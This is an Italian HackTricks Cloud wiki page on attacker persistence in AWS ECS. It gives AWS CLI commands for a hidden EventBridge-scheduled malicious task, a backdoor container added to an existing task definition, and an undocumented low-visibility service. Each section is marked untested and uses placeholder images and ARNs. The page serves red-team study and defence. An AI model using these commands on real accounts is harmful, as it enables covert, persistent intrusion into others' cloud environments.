 # AWS - ECS Persistence

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}

## ECS

Per ulteriori informazioni controlla:

{% content-ref url="../aws-services/aws-ecs-enum.md" %}
[aws-ecs-enum.md](../aws-services/aws-ecs-enum.md)
{% endcontent-ref %}

### Attività ECS Periodica Nascosta

{% hint style="info" %}
TODO: Test
{% endhint %}

Un attaccante può creare un'attività ECS periodica nascosta utilizzando Amazon EventBridge per **pianificare l'esecuzione di un'attività malevola periodicamente**. Questa attività può eseguire ricognizione, esfiltrare dati o mantenere la persistenza nell'account AWS.
```bash
# Create a malicious task definition
aws ecs register-task-definition --family "malicious-task" --container-definitions '[
{
"name": "malicious-container",
"image": "malicious-image:latest",
"memory": 256,
"cpu": 10,
"essential": true
}
]'

# Create an Amazon EventBridge rule to trigger the task periodically
aws events put-rule --name "malicious-ecs-task-rule" --schedule-expression "rate(1 day)"

# Add a target to the rule to run the malicious ECS task
aws events put-targets --rule "malicious-ecs-task-rule" --targets '[
{
"Id": "malicious-ecs-task-target",
"Arn": "arn:aws:ecs:region:account-id:cluster/your-cluster",
"RoleArn": "arn:aws:iam::account-id:role/your-eventbridge-role",
"EcsParameters": {
"TaskDefinitionArn": "arn:aws:ecs:region:account-id:task-definition/malicious-task",
"TaskCount": 1
}
}
]'
```
### Backdoor Container in Existing ECS Task Definition

{% hint style="info" %}
TODO: Test
{% endhint %}

Un attaccante può aggiungere un **container backdoor furtivo** in una definizione di task ECS esistente che viene eseguito insieme ai container legittimi. Il container backdoor può essere utilizzato per la persistenza e per eseguire attività malevole.
```bash
# Update the existing task definition to include the backdoor container
aws ecs register-task-definition --family "existing-task" --container-definitions '[
{
"name": "legitimate-container",
"image": "legitimate-image:latest",
"memory": 256,
"cpu": 10,
"essential": true
},
{
"name": "backdoor-container",
"image": "malicious-image:latest",
"memory": 256,
"cpu": 10,
"essential": false
}
]'
```
### Servizio ECS non documentato

{% hint style="info" %}
TODO: Test
{% endhint %}

Un attaccante può creare un **servizio ECS non documentato** che esegue un'attività malevola. Impostando il numero desiderato di attività al minimo e disabilitando la registrazione, diventa più difficile per gli amministratori notare il servizio malevolo.
```bash
# Create a malicious task definition
aws ecs register-task-definition --family "malicious-task" --container-definitions '[
{
"name": "malicious-container",
"image": "malicious-image:latest",
"memory": 256,
"cpu": 10,
"essential": true
}
]'

# Create an undocumented ECS service with the malicious task definition
aws ecs create-service --service-name "undocumented-service" --task-definition "malicious-task" --desired-count 1 --cluster "your-cluster"
```
{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}
